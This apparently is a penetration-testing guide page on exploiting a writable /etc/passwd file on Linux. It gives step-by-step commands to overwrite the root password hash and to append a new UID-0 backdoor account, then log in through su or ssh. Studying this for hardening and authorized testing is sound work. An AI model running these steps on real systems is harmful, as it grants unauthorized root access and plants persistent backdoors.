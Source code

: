 ```yaml
---
legal-banner: true
---
```


### **Overview of /etc/passwd Vulnerabilities**

The `/etc/passwd` file is crucial in Linux systems as it stores essential information about user accounts. It is readable by all users on the system but should only be writable by the root user. Any misconfiguration in its permissions can lead to severe security risks.

### **Step 1: Modifying /etc/passwd to Change Root Password**

If `/etc/passwd` is writable, attacker can modify the password hash of the root user to a known value, enabling unauthorized root access. This is feasible if the system uses legacy behavior where `/etc/passwd` can contain password hashes.

1.  Confirm if /etc/passwd is writable.  
    `ls -l /etc/passwd`  
    
    ![](../../../img/Linux-Environment/140.png)
    
2.  Use OpenSSL to generate a new password hash with a password of your choice:.  
    `openssl passwd -1 "hackfast"`  
    
    ![](../../../img/Linux-Environment/141.png)
    
3.  Replace the root user password hash.  
    `nano /etc/passwd`  
    
    ![](../../../img/Linux-Environment/142.png)
    
4.  Use the new password to switch to the root user.  
    `su`  
    
    ![](../../../img/Linux-Environment/143.png)
    
5.  Alternatively, log in with SSH:  
    `ssh root@[IP-ADRESS]`
    

### **Step 2: Adding a New Root Account**

If appending is possible but not modification, you can add a new user with root privileges by assigning them the root user ID (UID 0).

1.  Add a new entry with UID 0 and your known password hash.  
    `echo 'newroot:[hash]:0:0:root:/root:/bin/bash' >> /etc/passwd`
    
2.  Log in as the new user without needing root actual password.  
    `su newroot`
    
3.  Alternatively, log in with SSH:  
    `ssh newroot@[IP-ADRESS]`